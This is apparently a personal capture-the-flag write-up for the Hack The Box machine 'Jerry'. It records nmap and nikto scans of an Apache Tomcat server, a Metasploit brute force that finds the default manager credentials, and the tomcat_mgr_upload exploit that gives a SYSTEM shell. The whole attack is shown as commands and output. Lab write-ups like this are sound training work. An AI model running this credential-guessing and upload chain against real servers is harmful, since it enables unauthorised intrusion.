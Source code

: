 # Jerry 10.10.10.95 - Windows

 - __User__:
 - __Root__:

## Initial Attempt, 05/05/2020


```shell
Nmap scan report for 10.10.10.95
Host is up (0.031s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

 - Browser to 8080 shows default Apache Tomcat page, 7.0.88
 - Nmap says http not https
 - `http://10.10.10.95:8080/docs/RELEASE-NOTES.txt` has a list of potential search strings

A metasploit scanner landed on some weak credentials for the default install:

```shell
msf5 auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
.
snip
.
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
.
snip
.
[-] 10.10.10.95:8080 - LOGIN FAILED: both:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
```

Manger web panel provided info:

 - JVM `1.8.0_171-b11`
 - Windows Server 2012 R2 6.3
 - amd64
 - There appears to be a `/host-manager/html` as well as the `/manager/html` we accessed... our creds don't work there.

Retrying credential scan on new url `/host-manager/html`, says that tomcat/s3cret still works but we get 403's.

![alt text](./tomcatmanager.png "Manager Panel")


Ran a nikto scan:

```shell
^Cthoth@kali:~/Projects/htb-notes/machines/Jerry$ nikto -host 10.10.10.95 -port 8080
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2020-05-05 17:16:30 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7967 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2020-05-05 17:21:12 (GMT-4) (282 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Ran an exploit using the default credentials:

```shell
msf5 exploit(multi/http/tomcat_mgr_upload) > options

Module options (exploit/multi/http/tomcat_mgr_upload):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  s3cret           no        The password for the specified username
   HttpUsername  tomcat           no        The username to authenticate as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.10.10.95      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         8080             yes       The target port (TCP)

meterpreter > getuid
Server username: JERRY$
meterpreter > sysinfo
Computer    : JERRY
OS          : Windows Server 2012 R2 6.3 (amd64)
Meterpreter : java/windows
```

Got userspace. I'm not sure why, but dropping into `shell` (due to having some problems with meterpreter accessing certain directories...) gave me this:

```powershell
C:\Users>whoami
whoami
nt authority\system
```

From there I was able to find `2 for the price of 1.txt`